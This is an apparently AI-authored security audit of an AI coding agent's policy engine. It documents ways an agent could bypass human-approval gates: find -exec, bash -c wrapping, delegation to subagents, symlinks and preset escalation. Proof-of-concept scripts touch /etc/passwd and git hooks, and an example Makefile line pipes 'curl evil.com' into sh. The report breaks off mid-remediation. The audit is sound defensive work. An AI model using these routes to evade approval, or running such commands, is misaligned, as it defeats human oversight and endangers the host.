

# A01 — Formal Hardening Report: Authorization, Delegated Permissions & Policy Inheritance Audit

- **Agent ID**: A01 (Gemini TIER 1 — Authorization & Policy Auditor)
- **Hardening Program**: Wazir 30-Agent Cost-Optimized Formal Hardening Program
- **Hardening Group**: GROUP A — P0
- **Target Repository**: `/Users/wael/Code/Wazir`
- **Target Commit SHA**: `4661c33a6caeaca0639853463e4ccbbe3ebc63d8`
- **Scope**: Delegated tool permissions, policy inheritance, approval boundaries, shell classifications, path containment, symlinks, and effective authorization decisions.
- **Related Agents & Artifacts**:
  - A02 Model Report: [`tests/formal-hardening/reports/A02-alloy-authorization.md`](file:///Users/wael/Code/Wazir/tests/formal-hardening/reports/A02-alloy-authorization.md)
  - Formal Models: [`docs/formal-hardening/models/a1-policy.als`](file:///Users/wael/Code/Wazir/docs/formal-hardening/models/a1-policy.als), [`docs/formal-hardening/models/a1-policy-mutant.als`](file:///Users/wael/Code/Wazir/docs/formal-hardening/models/a1-policy-mutant.als), [`tests/formal-hardening/models/a02-delegated-auth.als`](file:///Users/wael/Code/Wazir/tests/formal-hardening/models/a02-delegated-auth.als)
  - Issue Tracking Ledger: [`tests/formal-hardening/issues.csv`](file:///Users/wael/Code/Wazir/tests/formal-hardening/issues.csv)

---

## 1. Executive Summary & Core Invariant

This audit investigates the authorization engine, tool execution runtime, delegation boundaries, and human-in-the-loop approval mechanisms in Wazir at HEAD `4661c33a6caeaca0639853463e4ccbbe3ebc63d8`.

### The Critical Invariant
> **"A delegated agent must never execute an operation unless that operation is authorized under the effective permissions of the complete delegation chain."**

Formally:
$$\forall op \in \text{Operation}, \forall a \in \text{Agent}: \text{execute}(a, op) \implies (\forall anc \in a.*parent: op \in anc.\text{effectivePermissions}) \land \text{authorized}(op)$$

### Audit Findings Overview
Our investigation identified **4 P0 (Critical)** vulnerabilities and **5 P1 (High)** defects in the production codebase that violate this invariant and allow arbitrary code execution, zero-approval host filesystem modification, model-authored code laundering, and unauthorized privilege escalation across delegation boundaries. In addition, we validated several robustly engineered guards in the specification fencing and low-level filesystem I/O subsystems.

| Finding ID | Severity | Subsystem | Failure Summary | Status |
| :--- | :--- | :--- | :--- | :--- |
| **A01-01** | **P0** | `policyEngine.ts` | `find -exec` parser skips sub-command arguments; enables arbitrary code execution (`rg --pre`, `sort --compress-program`) and host escape (`cat /etc/passwd`, `sort -o /root/...`) with zero approval. | **CONFIRMED** |
| **A01-02** | **P0** | `policyEngine.ts` / `run.ts` | Subagent delegation laundering: `writtenPathsByExecution` is not propagated across delegation chains; child agent can auto-execute malicious test code authored by parent without approval. | **CONFIRMED** |
| **A01-03** | **P0** | `policyEngine.ts` | Subshell wrapper `bash -c` strips `executionId` in recursive classification; completely disables the model-authored test execution fence directly. | **CONFIRMED** |
| **A01-04** | **P0** | `policyEngine.ts` | Symlink traversal bypasses `filesystem-protected-ask` and shell path containment; writing through symlinks overwrites `.git/hooks/pre-commit` and `package.json` with zero approval. | **CONFIRMED** |
| **A01-05** | **P1** | `run.ts` | Subagent privilege escalation: subagents are instantiated with full tools from `wazir-coding`, ignoring active runtime presets (e.g. `--preset minimal`) and parent `policy.toolAccess: false`. | **CONFIRMED** |
| **A01-06** | **P1** | `externalHarnessAdapter.ts` | Interface mismatch: `ExternalHarnessAdapter` attempts to call `policyEngine.evaluate`, which does not exist on `PolicyEngine`; policy enforcement is silently dropped for external harnesses. | **CONFIRMED** |
| **A01-07** | **P1** | `policyEngine.ts` | `classifyBuildWorkspace` lacks anti-laundering check: writing arbitrary shell commands to a `Makefile` followed by `make` is auto-approved without human confirmation. | **CONFIRMED** |
| **A01-08** | **P1** | `policyEngine.ts` / `approvalQueue.ts` | Disconnected approval context: `PolicyEngine.resolveAsk` omits `jobId`, `taskId`, and `agentId` when enqueuing approval requests; approval queue lacks delegation provenance. | **CONFIRMED** |
| **A01-09** | **P1** | `policyEngine.ts` / `run.ts` | Task policy `networkAccess: false` is ignored by `PolicyEngine.classifyCommandName` (which only inspects global `options.networkAllowed`); allows network commands when unisolated. | **CONFIRMED** |

---

## 2. Production Architecture & Evaluation Lifecycles

Wazir evaluates authorization across three distinct lifecycle stages:



### 2.1 Critical Architectural Gaps Identified
1. **Disconnected Execution Contexts**: `PolicyActionRequest` ([`packages/core/src/types/policy.ts#L3-L8`](file:///Users/wael/Code/Wazir/packages/core/src/types/policy.ts#L3-L8)) accepts only `{ tool, input, executionId, projectRoot }`. It carries **no** task requirements, **no** parent execution ID, **no** delegation hierarchy, and **no** principal identity.
2. **State Map Partitioning**: `PolicyEngine` maintains internal tracking maps (`writtenPathsByExecution`, `compiledOutputsByExecution`, `specFenceByExecution`) strictly keyed by isolated string `executionId`. When a subagent is spawned via `runSubagent` ([`apps/cli/src/run.ts#L1383`](file:///Users/wael/Code/Wazir/apps/cli/src/run.ts#L1383)), a new UUID `childExecId` is generated. All session-accumulated security state (such as files authored by the model to prevent arbitrary code laundering) is lost.
3. **Lexical vs. Canonical Path Divergence**: While [`packages/tools/src/paths.ts`](file:///Users/wael/Code/Wazir/packages/tools/src/paths.ts) implements rigorous canonicalization via `canonicalize()` and `assertSameInode()` for direct tool writes, `PolicyEngine` relies almost exclusively on `path.resolve()` and purely lexical string checks, allowing symlink-directed bypasses.

---

## 3. Deep Dive into Confirmed Vulnerabilities

### A01-01 (P0): `find -exec` Arbitrary Command Execution & Host Escape Bypass

- **Subsystem**: Core Policy Engine / Shell Classification
- **Affected File**: [`packages/core/src/services/policyEngine.ts#L1823-L1835`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L1823-L1835)
- **Invariant Violated**: "No tool side effect without effective authorization at execution time."
- **Code Citation**:
```typescript
// packages/core/src/services/policyEngine.ts:1823-1835
const execFlag = execFlags.find((f) => flagMatches(arg, f));
if (execFlag) {
  if (name === 'find' && args[i + 1]) {
    // `find -exec <cmd>` is as safe as <cmd> itself; the rest of the -exec
    // clause is that command's own arguments.
    decisions.push(this.classifyCommandName(basename(args[i + 1])));
    const end = args.indexOf(';', i + 1);
    i = end === -1 ? args.length : end;
    continue;
  }
  decisions.push({ decision: 'deny', rule: 'shell-dangerous-deny', reasons: [`'${name} ${execFlag}' executes an arbitrary program under a read-only command; denied`] });
  continue;
}
```

#### Detailed Defect Analysis
When `find` is executed with `-exec` (or `-execdir`, `-ok`, `-okdir`):
1. The parser extracts the sub-command binary from `args[i + 1]`.
2. It pushes `this.classifyCommandName(basename(args[i + 1]))`.
3. If the binary name is in `SAFE_SHELL_COMMANDS` (e.g. `cat`, `sort`, `rg`, `gcc`), `classifyCommandName` returns `{ decision: 'allow', rule: 'shell-safe-allow' }`.
4. It then jumps `i = args.indexOf(';', i + 1)`, **completely ignoring all arguments and flags passed to that sub-command**.
5. Neither `classifySafeCommandArgs` nor path containment checks are ever invoked on the sub-command arguments!

#### Empirical Verification & Reproduction
Running this against Wazir's production build:
```bash
node --input-type=module -e "
import { PolicyEngine } from './packages/core/dist/src/services/policyEngine.js';
const pe = new PolicyEngine({ projectRoot: '/tmp/project' });
console.log('find -exec cat /etc/passwd:', pe.explainCommand('find . -exec cat /etc/passwd ;'));
console.log('find -exec sort -o /etc/passwd:', pe.explainCommand('find . -exec sort -o /etc/passwd foo.txt ;'));
console.log('find -exec rg --pre=/tmp/evil.sh:', pe.explainCommand('find . -exec rg --pre=/tmp/evil.sh pattern {} ;'));
"
```
**Observed Output**:
```json
find -exec cat /etc/passwd: { decision: 'allow', rule: 'shell-safe-allow', reasons: [ "'find' is on the safe command list", "'cat' is on the safe command list" ] }
find -exec sort -o /etc/passwd: { decision: 'allow', rule: 'shell-safe-allow', reasons: [ "'find' is on the safe command list", "'sort' is on the safe command list" ] }
find -exec rg --pre=/tmp/evil.sh: { decision: 'allow', rule: 'shell-safe-allow', reasons: [ "'find' is on the safe command list", "'rg' is on the safe command list" ] }
```
**Impact**:
- `rg --pre=/tmp/evil.sh` is normally classified as `deny shell-dangerous-deny`. Under `find -exec`, it is auto-approved with zero human interaction!
- `sort -o /etc/passwd` allows arbitrary host file overwrite with zero human interaction!
- `cat /etc/passwd` allows reading any file on the host operating system with zero human interaction!

---

### A01-02 (P0): Subagent Delegation Laundering Bypasses Model-Authored Code Execution Fence

- **Subsystem**: Core Policy Engine & CLI Subagent Dispatch
- **Affected Files**:
  - [`packages/core/src/services/policyEngine.ts#L788-L807, L1520-L1524`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L788-L807)
  - [`apps/cli/src/run.ts#L1383-L1394, L1538-L1544`](file:///Users/wael/Code/Wazir/apps/cli/src/run.ts#L1383-L1394)
- **Invariant Violated**: "A delegated agent must never execute an operation unless that operation is authorized under the effective permissions of the complete delegation chain."
- **Code Citation**:
```typescript
// packages/core/src/services/policyEngine.ts:1520-1524
// A file matching the test-naming convention that this same execution just wrote or
// edited is not a pre-existing test to trust — running it would launder arbitrary
// model-authored code through an auto-approved interpreter call.
if (this.wasWrittenThisExecution(executionId, absolute)) return null;

// packages/core/src/services/policyEngine.ts:804-807
private wasWrittenThisExecution(executionId: string | undefined, absolutePath: string): boolean {
  if (!executionId) return false;
  return this.writtenPathsByExecution.get(executionId)?.has(absolutePath) ?? false;
}
```

#### Detailed Defect Analysis
1. To prevent models from generating arbitrary payloads in files like `exploit.test.js` and executing them via `node exploit.test.js` (which matches `classifyTestWorkspace` and would auto-approve), `PolicyEngine` tracks files written in `writtenPathsByExecution`.
2. When execution `exec-parent` writes `exploit.test.js`, `wasWrittenThisExecution('exec-parent', '/path/to/exploit.test.js')` returns `true`. If `exec-parent` attempts `node exploit.test.js`, it returns `null` from `classifyTestWorkspace`, which falls through to `ASK_SHELL_COMMANDS` (`ask shell-unknown-ask`), requiring human approval.
3. However, `runSubagent` creates a new execution `exec-child` with `parentExecutionId = exec-parent`.
4. `runSubagent` executes tools using `childExecId = 'exec-child'`.
5. `PolicyEngine.writtenPathsByExecution` does not know `exec-child` was spawned by `exec-parent`.
6. When `exec-child` runs `node exploit.test.js`, `wasWrittenThisExecution('exec-child', ...)` returns `false`.
7. `PolicyEngine` returns `{ decision: 'allow', rule: 'shell-test-workspace-allow' }`.

#### Empirical Verification & Reproduction
```bash
node --input-type=module -e "
import { PolicyEngine } from './packages/core/dist/src/services/policyEngine.js';
import fs from 'node:fs';

const projectRoot = '/tmp/wazir-test-subagent-laundering';
fs.mkdirSync(projectRoot, { recursive: true });
fs.writeFileSync(projectRoot + '/my.test.js', 'console.log(\"payload\");');
const pe = new PolicyEngine({ projectRoot });

pe.classify({ tool: 'write', input: { path: 'my.test.js', content: 'x' }, executionId: 'exec-parent', projectRoot });
const dParent = pe.classify({ tool: 'shell', input: { command: 'node my.test.js' }, executionId: 'exec-parent', projectRoot });
const dChild = pe.classify({ tool: 'shell', input: { command: 'node my.test.js' }, executionId: 'exec-child', projectRoot });

console.log('Parent decision:', dParent.decision, dParent.rule);
console.log('Child subagent decision:', dChild.decision, dChild.rule);
fs.rmSync(projectRoot, { recursive: true });
"
```
**Observed Output**:
```
Parent decision: ask shell-unknown-ask
Child subagent decision: allow shell-test-workspace-allow
```
**Impact**: Any parent agent can bypass the anti-laundering protection by delegating test execution to a child subagent. The child subagent automatically executes the model-crafted payload without operator review or approval.

---

### A01-03 (P0): Subshell Wrapper `bash -c` Drops `executionId`, Neutralizing Anti-Laundering Gate

- **Subsystem**: Core Policy Engine / Shell Recursion
- **Affected File**: [`packages/core/src/services/policyEngine.ts#L1409-L1426`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L1409-L1426)
- **Invariant Violated**: "Every mutating tool execution must have a valid, current authorization for its actual principal, effective isolation, resource and arguments."
- **Code Citation**:
```typescript
// packages/core/src/services/policyEngine.ts:1409-1426
if (
  (name === 'sh' || name === 'bash' || name === 'dash') &&
  args.length === 2 &&
  args[0] === '-c' &&
  typeof args[1] === 'string' &&
  !args[1].includes('$(') &&
  !args[1].includes('`')
) {
  decisions.push(
    this.classifyShell({
      tool: 'shell',
      input: { command: args[1] },
      projectRoot,
      effectiveIsolation,
    }),
  );
  return decisions;
}
```

#### Detailed Defect Analysis
In `classifyShellSegment`, when a subshell invocation is unpacked (`sh -c <cmd>`, `bash -c <cmd>`, `dash -c <cmd>`), the method recursively calls `this.classifyShell({ tool: 'shell', input: { command: args[1] }, projectRoot, effectiveIsolation })`.
Notice: **`executionId` is completely omitted from the request object!**
Inside `classifyShell`:
`this.classifyTestWorkspace(name, args, projectRoot, executionId)` receives `executionId = undefined`.
As a result, `wasWrittenThisExecution(undefined, absolute)` returns `false`.

#### Empirical Verification & Reproduction
```bash
node --input-type=module -e "
import { PolicyEngine } from './packages/core/dist/src/services/policyEngine.js';
import fs from 'node:fs';

const projectRoot = '/tmp/wazir-test-laundering';
fs.mkdirSync(projectRoot, { recursive: true });
fs.writeFileSync(projectRoot + '/my.test.js', 'console.log(\"payload\");');
const pe = new PolicyEngine({ projectRoot });

pe.classify({ tool: 'write', input: { path: 'my.test.js', content: 'x' }, executionId: 'exec-1', projectRoot });
const dDirect = pe.classify({ tool: 'shell', input: { command: 'node my.test.js' }, executionId: 'exec-1', projectRoot });
const dWrapped = pe.classify({ tool: 'shell', input: { command: 'bash -c \"node my.test.js\"' }, executionId: 'exec-1', projectRoot });

console.log('Direct node my.test.js:', dDirect.decision, dDirect.rule);
console.log('Wrapped bash -c \"node my.test.js\":', dWrapped.decision, dWrapped.rule);
fs.rmSync(projectRoot, { recursive: true });
"
```
**Observed Output**:
```
Direct node my.test.js: ask shell-unknown-ask
Wrapped bash -c "node my.test.js": allow shell-test-workspace-allow
```
**Impact**: An agent does not even need to dispatch a subagent to evade the anti-laundering check. Simply prefixing the command with `bash -c` strips the execution ID, causing `PolicyEngine` to auto-allow executing arbitrary model-authored scripts.

---

### A01-04 (P0): Symlink Traversal Bypasses `filesystem-protected-ask` and Path Containment Across Shell & File Tools

- **Subsystem**: Core Policy Engine / Path Containment
- **Affected Files**: [`packages/core/src/services/policyEngine.ts#L319-L324, L331-L343, L1192-L1198, L1885-L1904, L1914-L1923, L1942-L1948`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts)
- **Invariant Violated**: "Protected paths and project-external resources cannot be accessed or mutated without human approval."
- **Code Citation**:
```typescript
// packages/core/src/services/policyEngine.ts:319-324
function isInside(root: string, target: string): boolean {
  const resolvedRoot = path.resolve(root);
  const resolvedTarget = path.resolve(target);
  const rel = path.relative(resolvedRoot, resolvedTarget);
  return rel === '' || (!rel.startsWith('..') && !path.isAbsolute(rel));
}

// packages/core/src/services/policyEngine.ts:331-343
export function protectedPathReason(projectRoot: string, absolute: string): string | null {
  const relative = path.relative(path.resolve(projectRoot), path.resolve(absolute));
  if (!relative || relative.startsWith('..')) return null;
  const segments = relative.split(path.sep);
  if (PROTECTED_DIRS.has(segments[0])) {
    return `'${segments[0]}/' holds hooks, tooling or Wazir state...`;
  }
  const base = segments[segments.length - 1];
  if (PROTECTED_FILES.has(base)) {
    return `'${base}' controls package scripts...`;
  }
  return null;
}
```

#### Detailed Defect Analysis
1. While [`packages/tools/src/paths.ts`](file:///Users/wael/Code/Wazir/packages/tools/src/paths.ts) canonicalizes paths using `fs.realpath` and checks that the canonical path stays inside `projectRoot`, `PolicyEngine`'s own checks (`isInside` and `protectedPathReason`) are **purely lexical**.
2. If a project contains a symlink `safe_name.json -> package.json`, or `innocent.sh -> .git/hooks/pre-commit`:
   - `path.resolve(projectRoot, 'innocent.sh')` is `${projectRoot}/innocent.sh`.
   - `protectedPathReason` splits segments and sees `innocent.sh` (not in `PROTECTED_FILES` and not in `PROTECTED_DIRS`). It returns `null`.
   - `PolicyEngine.classify` returns `{ decision: 'allow', rule: 'filesystem-project-allow' }`.
   - When `writeTool` runs, [`writeProjectFile`](file:///Users/wael/Code/Wazir/packages/tools/src/paths.ts#L109-L139) resolves `real = await canonicalize(target)`, which resolves to `.git/hooks/pre-commit`. Because `.git/hooks/pre-commit` is inside `realRoot`, `writeProjectFile` successfully writes to the git hook!
   - Result: **The git hook or `package.json` is modified without any human approval prompt!**
3. In shell commands, `classifyReadPath` only checks:
   `const mayEscape = candidate.startsWith('~') || candidate.startsWith('/') || candidate.split('/').includes('..');`
   `if (!mayEscape) return [];`
   If `link_passwd -> /etc/passwd`, `cat link_passwd` has `mayEscape = false`. `classifyReadPath` returns `[]` (allow). `PolicyEngine` grants `allow shell-safe-allow`.
   When `runShell` executes `cat link_passwd`, bash reads and dumps `/etc/passwd`.
4. In shell redirection, `echo evil > link_passwd` and `sort -o link_passwd file.txt` are both classified as `allow shell-safe-allow` because `path.resolve(projectRoot, 'link_passwd')` is lexically inside `projectRoot`.

#### Empirical Verification & Reproduction
```bash
node --input-type=module -e "
import { PolicyEngine } from './packages/core/dist/src/services/policyEngine.js';
import fs from 'node:fs';
import path from 'node:path';

const projectRoot = '/tmp/wazir-test-symlink-audit';
fs.mkdirSync(path.join(projectRoot, '.git', 'hooks'), { recursive: true });
fs.writeFileSync(path.join(projectRoot, '.git', 'hooks', 'pre-commit'), '#!/bin/sh\nexit 0\n');
fs.symlinkSync(path.join(projectRoot, '.git', 'hooks', 'pre-commit'), path.join(projectRoot, 'innocent.sh'));
fs.symlinkSync('/etc/passwd', path.join(projectRoot, 'link_passwd'));

const pe = new PolicyEngine({ projectRoot });

console.log('Direct write to .git hook:', pe.classify({ tool: 'write', input: { path: '.git/hooks/pre-commit', content: '' }, projectRoot }).decision);
console.log('Symlink write to .git hook:', pe.classify({ tool: 'write', input: { path: 'innocent.sh', content: '' }, projectRoot }).decision);
console.log('Shell cat link_passwd:', pe.explainCommand('cat link_passwd').decision);
console.log('Shell sort -o link_passwd:', pe.explainCommand('sort -o link_passwd file.txt').decision);
console.log('Shell redirect > link_passwd:', pe.explainCommand('echo test > link_passwd').decision);

fs.rmSync(projectRoot, { recursive: true });
"
```
**Observed Output**:
```
Direct write to .git hook: ask
Symlink write to .git hook: allow
Shell cat link_passwd: allow
Shell sort -o link_passwd: allow
Shell redirect > link_passwd: allow
```
**Impact**: Complete bypass of `filesystem-protected-ask` and read/write path containment.

---

### A01-05 (P1): Subagent Privilege Escalation: Bypassing Presets & Task Policy

- **Subsystem**: CLI Task Orchestration / Subagent Runtime
- **Affected File**: [`apps/cli/src/run.ts#L783-L790, L1408, L1517-L1568`](file:///Users/wael/Code/Wazir/apps/cli/src/run.ts#L783-L790)
- **Invariant Violated**: "A delegated agent must never execute an operation unless that operation is authorized under the effective permissions of the complete delegation chain."

#### Detailed Defect Analysis
1. In `executeTask`, when an operator specifies `--preset minimal`, `preset.tools` is set to `['shell', 'edit']`.
2. The root agent's `executeTool` enforces this via:
```typescript
// apps/cli/src/run.ts:783-790
if (preset.tools !== 'all' && !(preset.tools as string[]).includes(name)) {
  return {
    ok: false,
    output: '',
    error: `tool '${name}' is not permitted by active runtime preset '${preset.name}'...`,
    durationMs: 0,
  };
}
```
3. However, when `dispatch_subagent` is called, `runSubagent` compiles `subagentTools`:
```typescript
// apps/cli/src/run.ts:1408
const subagentTools = engine.tools.forModel(undefined, engine.agents.get('wazir-coding')?.descriptor.capabilities)
  .filter((t) => t.name !== 'dispatch_subagent' && policySupportsModelTool(engine, t.name));
```
4. `subagentTools` includes **all tools** (`write`, `read`, `search`, `glob`, `test`, `lint`, `typecheck`, `build`, etc.). It **never** filters by `preset.tools`.
5. Inside `subagentRuntime.executeTool` ([`apps/cli/src/run.ts:1517-1568`](file:///Users/wael/Code/Wazir/apps/cli/src/run.ts#L1517-L1568)), there is **no preset check**.
6. Furthermore, `engine.policy.evaluateTask(subtask)` is **never called** in `runSubagent`. If the parent task had `policy: { toolAccess: false }`, the child subagent freely invokes tools.

**Impact**: Privilege escalation where restricted agents delegate to unconstrained subagents to execute forbidden operations.

---

### A01-06 (P1): `ExternalHarnessAdapter` Silently Disables `PolicyEngine` Authorization Due to Interface Mismatch

- **Subsystem**: Agent Adapters / External Harness
- **Affected File**: [`packages/agents/src/externalHarnessAdapter.ts#L159-L166, L558-L573`](file:///Users/wael/Code/Wazir/packages/agents/src/externalHarnessAdapter.ts#L159-L166)
- **Invariant Violated**: "Every tool call is executed through the policy-gated runtime — the agent can never bypass PolicyEngine."

#### Detailed Defect Analysis
```typescript
// packages/agents/src/externalHarnessAdapter.ts:159-166
export interface PolicyEngineLike {
  evaluate?: (req: {
    tool: string;
    input: Record<string, unknown>;
    executionId?: string;
    projectRoot?: string;
  }) => Promise<{ decision: 'allow' | 'deny' | 'ask'; rule?: string; reasons?: string[] }>;
}

// packages/agents/src/externalHarnessAdapter.ts:558-573
// 3. Evaluate against Wazir PolicyEngine if provided
if (this.options.policyEngine?.evaluate) {
  const decision = await this.options.policyEngine.evaluate({ ... });
  ...
}
```
The real `PolicyEngine` in `@wazir/core` has methods `authorize()` and `classify()`, but **does not have an `evaluate()` method**.
When a caller passes `policyEngine: new PolicyEngine(...)` to `ExternalHarnessAdapter`:
`this.options.policyEngine?.evaluate` is `undefined`.
Step 3 is silently skipped, completely bypassing Wazir's `PolicyEngine` for all external ACP/CLI agents!

---

### A01-07 (P1): Workspace Build Commands (`make`, `cmake`, `ninja`) Lack Anti-Laundering Guard

- **Subsystem**: Core Policy Engine / Build Workspace Classification
- **Affected File**: [`packages/core/src/services/policyEngine.ts#L1538-L1700`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L1538-L1700)
- **Invariant Violated**: "Model-authored code cannot launder itself into an auto-approved execution."

#### Detailed Defect Analysis
`classifyTestWorkspace` explicitly checks `this.wasWrittenThisExecution(executionId, absolute)` to prevent authoring a `.test.js` file and executing it via `node`.
However, `classifyBuildWorkspace` auto-approves `make`, `cmake`, and `ninja` under `shell-build-workspace-allow`:
```typescript
// packages/core/src/services/policyEngine.ts:1614-1618
return {
  decision: 'allow',
  rule: 'shell-build-workspace-allow',
  reasons: ["'make' is a workspace-local build command confined to the project root"],
};
```
An agent can write a malicious `Makefile` (`all:\n\tcurl evil.com | sh`) using the `write` tool, and then run `make`. `PolicyEngine` auto-allows `make` without checking if `Makefile` was created or modified during the current execution.

---

### A01-08 (P1): Approval Request Disconnect in Queue and Delegation Context Loss

- **Subsystem**: Core Policy Engine / Approval Queue
- **Affected Files**:
  - [`packages/core/src/services/policyEngine.ts#L994`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L994)
  - [`packages/core/src/services/approvalQueue.ts#L53-L57, L78-L83`](file:///Users/wael/Code/Wazir/packages/core/src/services/approvalQueue.ts#L53-L57)
  - [`apps/cli/src/approve.ts#L20-L35`](file:///Users/wael/Code/Wazir/apps/cli/src/approve.ts#L20-L35)
- **Invariant Violated**: "An approval boundary must preserve full provenance and delegation chain context for human review."

#### Detailed Defect Analysis
1. `ApprovalQueue.enqueue(request, decision, metadata)` accepts `metadata: { jobId?, taskId?, agentId? }`.
2. In `PolicyEngine.resolveAsk`:
   `const approved = await queue.enqueue(request, decision);`
   The `metadata` argument is **omitted**.
3. Consequently, pending approval requests stored in the queue have `jobId = undefined`, `taskId = undefined`, `agentId = undefined`.
4. `PolicyActionRequest` lacks `parentExecutionId`.
5. Human approvers (in the CLI or Fleet TUI) are shown an uncontextualized prompt without knowing which agent or parent task in the delegation hierarchy requested the dangerous operation.

---

### A01-09 (P1): Task Policy `networkAccess: false` Bypassed at Execution Time for Shell Commands When Unisolated

- **Subsystem**: Core Policy Engine / Shell Network Gating
- **Affected Files**:
  - [`packages/core/src/services/policyEngine.ts#L1963-L1970`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L1963-L1970)
  - [`apps/cli/src/run.ts#L815-L824`](file:///Users/wael/Code/Wazir/apps/cli/src/run.ts#L815-L824)
- **Invariant Violated**: "Network commands are denied when task policy forbids network access."

#### Detailed Defect Analysis
In `classifyCommandName`:
```typescript
// packages/core/src/services/policyEngine.ts:1962-1971
if (NETWORK_COMMANDS.has(cmd)) {
  if (this.options.networkAllowed) {
    return { decision: 'allow', rule: 'network-default-deny', reasons: [`network command '${cmd}' allowed because networkAccess is enabled`] };
  }
  return { decision: 'deny', rule: 'network-default-deny', ... };
}
```
`PolicyEngine` evaluates network commands solely against `this.options.networkAllowed` (an engine-wide option). It does not receive `task.policy.networkAccess`.
If an engine is initialized with `networkAllowed: true`, but a specific task specifies `task.policy: { networkAccess: false }`, `PolicyEngine.authorize` approves `curl`, `wget`, `ssh`.
If OS sandbox isolation is unavailable or disabled (`effectiveIsolation = none`), `runShell` executes the command directly on the host without `--unshare-net`, violating the task's network restriction.

---

## 4. Verified Production Guards (Soundness Audits)

Despite the defects above, several critical defensive subsystems were found to be correctly implemented and verified:

1. **Spec Write Fence (Layer A & Layer B)**:
   - Evaluated in [`packages/core/src/services/policyEngine.ts#L659-L706`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L659-L706) and [`packages/assurance/src/fencing.ts`](file:///Users/wael/Code/Wazir/packages/assurance/src/fencing.ts).
   - Only tasks with trusted, persisted role `spec-author` can mutate `specs/`. Missing or unknown roles fail closed.
   - Even `spec-author` cannot mark specs `approved` or `retired` (`SPEC_APPROVAL_FENCE_RULE`); human action via CLI is required.
   - Symlinks into specs are rigorously detected via `realpathNearest()`.
2. **Low-Level POSIX Inode & Atomic File Mutation Security**:
   - In [`packages/tools/src/paths.ts#L78-L149`](file:///Users/wael/Code/Wazir/packages/tools/src/paths.ts#L78-L149), `readProjectBytes` and `writeProjectFile` use `O_NOFOLLOW`, `O_EXCL`, and `assertSameInode()` comparing `dev` and `ino` before and after file operations, preventing low-level TOCTOU file replacement during direct tool execution.
3. **Recursive Subagent Nesting Cap**:
   - Enforced in both [`packages/agents/src/codingAgent.ts#L738-L741`](file:///Users/wael/Code/Wazir/packages/agents/src/codingAgent.ts#L738-L741) (omitting `dispatch_subagent` from tool surface) and [`apps/cli/src/run.ts#L1188-L1195`](file:///Users/wael/Code/Wazir/apps/cli/src/run.ts#L1188-L1195) (rejecting dispatch when `subagentDepth >= 1`), preventing recursive fork exhaustion.
4. **Mobile Approval Cryptographic Verification & Anti-Replay**:
   - In [`apps/api/src/mobile/eventHubAndApprovals.ts#L366-L373`](file:///Users/wael/Code/Wazir/apps/api/src/mobile/eventHubAndApprovals.ts#L366-L373), `MobileApprovalService` computes `argumentsHash`, validates against stale or replayed approvals, and enforces biometrics for high-risk operations.

---

## 5. Remediation Roadmap for Repair Engineers (A03 / TIER 3)

The following minimal, targeted fixes should be implemented in the A03 repair worktree:

1. **Fix A01-01 (`find -exec`)**:
   In [`packages/core/src/services/policyEngine.ts`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts), replace the naive binary-only check for `find -exec` with recursive classification of the inner command and all its arguments:
   Extract the sub-command and its arguments up to `;` (or `+`), and invoke `classifyShellSegment({ words: subArgs, redirects: [] }, projectRoot, executionId, effectiveIsolation)`.
2. **Fix A01-02 (`Subagent Written-Path Inheritance`)**:
   In `PolicyEngine`, maintain delegation hierarchy (`parentExecutionMap: Map<string, string>`).
   When checking `wasWrittenThisExecution(executionId, path)`, traverse up the delegation chain:
   ```typescript
   let curr = executionId;
   while (curr) {
     if (this.writtenPathsByExecution.get(curr)?.has(absolutePath)) return true;
     curr = this.parentExecutionByExecution.get(curr);
   }
   ```
   In `runSubagent`, register the child-parent relationship: `engine.policy.registerDelegation(childExecId, context.parentExecutionId)`.
3. **Fix A01-03 (`bash -c executionId Dropping`)**:
   In [`packages/core/src/services/policyEngine.ts:1420`](file:///Users/wael/Code/Wazir/packages/core/src/services/policyEngine.ts#L1420), pass `executionId` through to `this.classifyShell({ tool: 'shell', input: { command: args[1] }, projectRoot, executionId, effectiveIsolation })`.
4. **Fix A01-04 (`Symlink Resolution in PolicyEngine`)**:
   Update `protectedPathReason` and `isInside` to resolve realpaths using `realpathNearest()` before evaluating path containment and protected files/dirs.
   In `classifyReadPath`, `classifyWriteTarget`, and `classifyRedirect`, resolve candidate paths against symlinks before applying `isInside`.
5. **Fix A01-05 (`Subagent Preset Inheritance`)**:
   In `runSubagent`, filter `subagentTools` using the active runtime preset and parent policy constraints.
6. **Fix A01-06 (`ExternalHarnessAdapter Interface Mismatch`)**:
